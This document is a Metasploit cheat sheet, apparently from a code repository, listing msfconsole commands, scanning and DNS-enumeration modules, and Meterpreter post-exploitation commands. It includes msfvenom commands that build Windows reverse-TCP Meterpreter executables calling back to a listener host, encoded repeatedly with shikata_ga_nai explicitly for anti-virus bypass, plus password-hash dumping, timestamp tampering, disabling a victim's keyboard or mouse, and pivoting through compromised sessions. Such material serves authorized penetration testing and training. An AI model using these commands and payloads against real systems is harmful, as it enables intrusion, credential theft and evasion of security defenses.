 Metasploit Cheat Sheet
======================

--------------

Metasploit Project is a computer security project which provide
information about vulnerabilities. Help in the development of
penetration tests and IDS signatures, metasploit is very popular tool
used by pentest experts.

Metasploit :
~~~~~~~~~~~~

-  Search for module:
                     

.. code:: bash

    msf > search [regex]

-  Specify and exploit to use:
                              

.. code:: bash

    msf > use exploit/[ExploitPath]

-  Specify a Payload to use:
                            

.. code:: bash

    msf > set PAYLOAD [PayloadPath]

-  Show options for the current modules:
                                        

.. code:: bash

    msf > show options

-  Set options:
               

.. code:: bash

    msf > set [Option] [Value]

-  Start exploit:
                 

.. code:: bash

    msf > exploit 

--------------

Useful Auxiliary Modules
~~~~~~~~~~~~~~~~~~~~~~~~

-  Port Scanner:
                

.. code:: bash

    msf > use auxiliary/scanner/portscan/tcp
    msf > set RHOSTS 192.168.10.0/24
    msf > run

-  DNS Enumeration:
                   

.. code:: bash

    msf > use auxiliary/gather/dns_enum
    msf > set DOMAIN target.tgt
    msf > run

-  FTP Server:
              

.. code:: bash

    msf > use auxiliary/server/ftp
    msf > set FTPROOT /tmp/ftproot
    msf > run

-  Proxy Server:
                

.. code:: bash

    msf > use auxiliary/server/socks4
    msf > run 

--------------

msfvenom :
~~~~~~~~~~

msfvenom this is tool can be used to generate Metasploit payloads as
standalone files and optionally encode them. This tool replaces
``msfpayload`` and ``msfencode`` tools. Run with ‘'-l payloads’ to get a
list of payloads.

.. code:: bash

    $ msfvenom –p [PayloadPath]
    –f [FormatType]
    LHOST=[LocalHost (if reverse conn.)]
    LPORT=[LocalPort]

-  Example: Reverse Meterpreter payload as an executable and redirected into a file:

.. code:: bash

    $ msfvenom -p windows/meterpreter/
    reverse_tcp -f exe LHOST=192.168.1.1
    LPORT=4444 > met.exe

-  Format Options **(specified with –f)** --help-formats – List available output formats

   -  ``-exe`` – Executable
   -  ``-pl`` – Perl
   -  ``-rb`` – Ruby
   -  ``-raw`` – Raw shellcode
   -  ``-c`` – C code

-  Encoding Payloads with msfvenom

msfvenom can be used to apply a level of encoding for anti-virus bypass.
For example run msfvenom with ``-l encoders`` to get a list of encoders.

.. code:: bash

    $ msfvenom -p [Payload] -e [Encoder] -f
    [FormatType] -i [EncodeInterations]
    LHOST=[LocalHost (if reverse conn.)]
    LPORT=[LocalPort]

-  Example: Encode a payload from msfpayload 5 times using shikata-ga-nai encoder and output as executable:

.. code:: bash

    $ msfvenom -p windows/meterpreter/
    reverse_tcp -i 5 -e x86/shikata_ga_nai -f
    exe LHOST=192.168.1.1 LPORT=4444 > mal.exe

--------------

Metasploit Meterpreter

-  Base Commands:

   -  ``? / help`` : Display a summary of commands exit / quit: Exit the
      Meterpreter session

   -  ``sysinfo``: Show the system name and OS type

   -  ``shutdown / reboot`` : Self-explanatory

-  File System Commands:

   -  ``cd`` : Change directory

   -  ``lcd`` : Change directory on local (attacker's) machine

   -  ``pwd / getwd`` : Display current working directory

   -  ``ls`` : Show the contents of the directory

   -  ``cat`` : Display the contents of a file on screen

   -  ``download / upload`` : Move files to/from the target machine

   -  ``mkdir / rmdir`` : Make / remove directory

   -  ``edit`` : Open a file in the default editor (typically vi)

-  Process Commands:

   -  ``getpid`` : Display the process ID that Meterpreter is running
      inside.

   -  ``getuid`` : Display the user ID that Meterpreter is running with.

   -  ``ps`` : Display process list.

   -  ``kill`` : Terminate a process given its process ID.

   -  ``execute`` : Run a given program with the privileges of the
      process the Meterpreter is loaded in.

   -  ``migrate`` : Jump to a given destination process ID

-  Network Commands:

   -  ``ipconfig`` : Show network interface information

   -  ``portfwd`` : Forward packets through TCP session

   -  ``route`` : Manage/view the system's routing table

-  Other Commands:

   -  ``idletime``: Display the duration that the GUI of thetarget
      machine has been idle.

   -  ``uictl [enable/disable] [keyboard/mouse]`` : Enable/disable
      either the mouse or keyboard of the target machine.

   -  ``screenshot`` : Save as an image a screenshot of the target
      machine.

-  Additional Modules:

   -  ``use [module]`` : Load the specified module

   -  **Examples**:

      -  ``use priv`` : Load the priv module

      -  ``hashdump`` : Dump the hashes from the box

      -  ``timestomp`` : Alter NTFS file timestamps

--------------

Managing Sessions
~~~~~~~~~~~~~~~~~

Multiple Exploitation:
''''''''''''''''''''''

-  Run the exploit expecting a single session that is immediately backgrounded:

.. code:: bash

    msf > exploit -z

-  Run the exploit in the background expecting one or more sessions that are immediately backgrounded:

.. code:: bash

    msf > exploit –j

-  List all current jobs ``exploit listeners``:

.. code:: bash

    msf > jobs –l

-  Kill a job:

.. code:: bash

    msf > jobs –k [JobID]

Multiple Sessions:

-  List all backgrounded sessions:

.. code:: bash

    msf > sessions -l

-  Interact with a backgrounded session:

.. code:: bash

    msf > session -i [SessionID]

-  Background the current interactive session:

.. code:: bash

    meterpreter > <Ctrl+Z>

or

.. code:: bash

    meterpreter > background

-  Routing Through Sessions:

All modules against the target subnet mask will be pivoted through this
session.

.. code:: bash

    msf > route add [Subnet to Route To]
    [Subnet Netmask] [SessionID]

--------------
